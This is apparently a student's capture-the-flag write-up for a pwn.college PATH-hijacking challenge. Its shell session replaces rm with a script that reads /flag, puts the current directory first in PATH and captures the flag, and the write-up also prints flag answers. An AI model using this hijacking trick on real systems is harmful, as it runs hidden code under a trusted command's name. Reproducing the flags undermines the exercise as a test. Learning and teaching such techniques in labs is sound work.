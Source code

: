 # Pondering Path 

### Hijaking Commands 

**Flag:** `pwn.college{M4ZcMMbbm8FHhza3W_S9_93NKUS.QX3cjM1wiN2kjNzEzW}`

I changed the output of rm by echoing cat /flag into it then made it executable then made the PATH accessible to obtain the flag .

```
hacker@path~hijacking-commands:~$ echo 'cat /flag' > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ export PATH=".:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{EGumzng1hvNtkYjtptqXX5cthEw.QX3cjM1wCN3gjNzEzW}
```

## What I learned

1. Cummulation of all challenges

## References

NONE
